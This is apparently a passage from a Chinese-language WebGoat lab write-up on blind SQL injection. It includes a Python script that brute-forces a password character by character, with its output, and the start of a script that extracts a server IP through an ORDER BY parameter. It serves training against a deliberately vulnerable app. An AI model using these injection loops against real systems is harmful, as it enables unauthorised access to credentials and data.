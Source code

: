 ```python
        'password_reg': password, 
        'confirm_password_reg': password
    }
    r = requests.put(url, cookies=cookie, data=params)
    result_json = r.json()
    feedback = str(result_json['feedback']).strip()
    check = (f"User {username_tmp} already exists please try to register with a different username.")
    if (feedback == check):
        return True
    

if __name__ == "__main__":
    url = base_url + relative_url
    for password_field in password_fields:
        for digit in range (1, 50):
            for guess in test_set:
                isRight = guess_pw(guess, password_field, digit)
                if isRight:
                    result += guess
                    print(guess, end="")
                    break
            else:
                if len(result) == 0:
                    print(f"{password_field} isn't the field")
                break
        if (len(result) < digit and len(result) > 0):
            break
```

#### 结果

运行结果为：

```
passwd isn't the field
thisisasecretfortomonly
```

### 找IP地址 SQL Injection (mitigation) 10

> 条件：一基于String boot的列表查看系统，无特别安全防护（即封ip等）。
>
> 要求：获取名为webgoat-prd的服务器的完整ip，为了降低难度，give you the last part: `xxx.130.219.202`。

```python
import requests
import json
from string import digits

base_url = "http://127.0.0.1:8080"
relative_url = "/WebGoat/SqlInjection/servers?column="
cookie = {"JSESSIONID":"989CC4A31FF888131A56EF470F393DB8"}

# SELECT id, hostname, ip, mac, status, description FROM <table_name> 
# WHERE substring(ip, 1, 3) = '192' OBDER BY ?;
# case when (SELECT ip FROM servers WHERE hostname = 'webgoat-prd' AND substring(ip, 1, 1) = '
"""
for digit in range(1, 4):
    for num in digits:
        build request with digit and num
        if response means success, break
        else continue
"""
"""
```